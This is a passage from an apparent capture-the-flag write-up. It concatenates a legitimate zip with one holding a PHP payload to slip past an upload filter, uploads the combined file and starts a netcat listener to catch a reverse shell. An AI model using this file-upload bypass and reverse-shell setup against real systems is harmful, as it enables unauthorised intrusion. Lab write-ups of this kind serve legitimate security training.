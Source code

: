 We should now have 2 zip files, one with our legitimate file, and another one with a malicious payload.

**Command**
```bash
ls -la
```

**Output**
```bash
drwxrwxr-x 2 kali kali  4096 Jun  4 06:29 .
drwxrwxr-x 4 kali kali  4096 Jun  2 07:34 ..
-rw-rw-r-- 1 kali kali 91266 Jun  4 06:13 legit.pdf
-rw-rw-r-- 1 kali kali 83614 Jun  4 06:28 legit.zip
-rw-rw-r-- 1 kali kali  1370 Jun  4 06:23 w1ld.php
-rw-rw-r-- 1 kali kali   761 Jun  4 06:29 w1ld.zip
```

Now let's concatenate the zip files.

**Command**
```bash
cat legit.zip w1ld.zip > combined.zip
```

**Command**
```bash
ls -la
```

**Output**
```bash
total 276
drwxrwxr-x 2 kali kali  4096 Jun  4 06:31 .
drwxrwxr-x 4 kali kali  4096 Jun  2 07:34 ..
-rw-rw-r-- 1 kali kali 84375 Jun  4 06:31 combined.zip
-rw-rw-r-- 1 kali kali 91266 Jun  4 06:13 legit.pdf
-rw-rw-r-- 1 kali kali 83614 Jun  4 06:28 legit.zip
-rw-rw-r-- 1 kali kali  1370 Jun  4 06:23 w1ld.php
-rw-rw-r-- 1 kali kali   761 Jun  4 06:29 w1ld.zip
```

Let's upload the file.
![File upload success](/assets/img/img_Certificate/Certificate-1749033125440.png)

Let's start a listener for our reverse shell.

**Command**
```bash
nc -lvnp 9001
```
